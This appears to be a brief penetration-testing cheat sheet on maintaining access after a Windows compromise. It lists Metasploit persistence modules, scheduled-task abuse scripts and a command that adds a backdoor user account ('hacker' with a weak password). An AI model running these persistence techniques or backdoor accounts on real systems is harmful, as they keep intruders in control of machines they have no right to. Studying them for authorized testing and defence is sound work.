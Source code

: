 # Post Exploitation: Maintaining Access

## Maintaining Access

Persistence Scripts (super dangerous!! no need to use them)
- run `persistence -h`
- `exploit/windows/local/persistence`
- `exploit/windows/local/registry_persistence`

Scheduled Tasks
- run `scheduleme`
- run `schtaskabuse`

Add user
- `net user hacker password123 /add`
